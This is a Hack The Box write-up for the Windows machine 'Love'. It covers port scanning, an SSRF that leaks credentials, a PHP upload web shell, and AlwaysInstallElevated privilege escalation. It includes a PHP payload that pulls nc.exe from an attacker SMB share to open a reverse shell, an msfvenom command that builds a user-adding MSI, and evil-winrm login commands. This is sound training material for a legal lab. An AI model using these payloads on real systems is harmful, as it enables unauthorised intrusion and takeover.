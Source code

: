 ```yaml
---
layout: single
title: Love - Hack The Box
excerpt: "Love is an easy windows machine where it features a voting system application that suffers from an authenticated remote code execution vulnerability. Our port scan reveals a service running on port 5000 where browsing the page we discover that we are not allowed to access the resource. Furthermore a file scanner application is running on the same server which is though effected by a SSRF vulnerability where it&amp;amp;#039;s exploitation gives access to an internal password manager. We can then gather credentials for the voting system and by executing the remote code execution attack as phoebe user we get the initial foothold on system. Basic windows enumeration reveals that the machine suffers from an elevated misconfiguration. Bypassing the applocker restriction we manage to install a malicious msi file that finally results in a reverse shell as the system account."
date: 2025-05-27
classes: wide
header:
  teaser: /img2/love.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Windows
  - Easy
tags:
  - Server Side Request Forgery (SSRF)
  - Exploiting Voting System
  - Abusing AlwaysInstallElevated (msiexec/msi file)
---
```



## Reconnaissance

- Nmap

```bash
nmap --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.239
```

![](/img2/Pasted%20image%2020250527104640.png)

- Vulnerability and version scan

```bash
nmap -sCV -p80,135,139,443,445,3306,5040,7680 10.10.10.239
```

![](/img2/Pasted%20image%2020250527111101.png)

- Add domain to local DNS

```bash
echo "10.10.10.239 staging.love.htb" >> /etc/hosts
```

## Exploitation

- Server-Side Request Forgery (SSRF)

![](/img2/Pasted%20image%2020250527120847.png)

![](/img2/Pasted%20image%2020250527120931.png)

- Leaked credentials

![](/img2/Pasted%20image%2020250527121034.png)

![](/img2/Pasted%20image%2020250527121306.png)

- Abuse File Upload

![](/img2/Pasted%20image%2020250527121944.png)

```php
<?php
	system("whoami");
?>
```

![](/img2/Pasted%20image%2020250527122019.png)

- Reverse shell

```php
<?php
  system('cmd /c \\\\10.10.16.7\\smbFolder\\nc.exe 10.10.16.7 9000 -e cmd.exe');
?>
```

```bash
impacket-smbserver smbFolder -smb $(pwd) -smb2support
```

![](/img2/Pasted%20image%2020250527121944.png)

```bash
rlwrap nc -nvlp 9000
```

## Post-exploitation

- WinPEAS enumeration

![](/img2/Pasted%20image%2020250527131427.png)

- AlwaysInstallElevated exploitation

```bash
msfvenom -p windows/adduser USER=pyuser PASS=P@ssword123! -f msi -o alwe.msi
```

```bash
impacket-smbserver smbFolder -smb $(pwd) -smb2support
```

```
copy \\10.10.16.7\smbFolder\alwe.msi
```

```
msiexec /i "C:\Users\Phoebe\AppData\Local\Temp\alwe.msi" /quiet /norestart
```

- Connect with new user

```bash
evil-winrm -i 10.10.10.239 -u pyuser -p P@ssword123!
```

![](/img2/Pasted%20image%2020250527131858.png)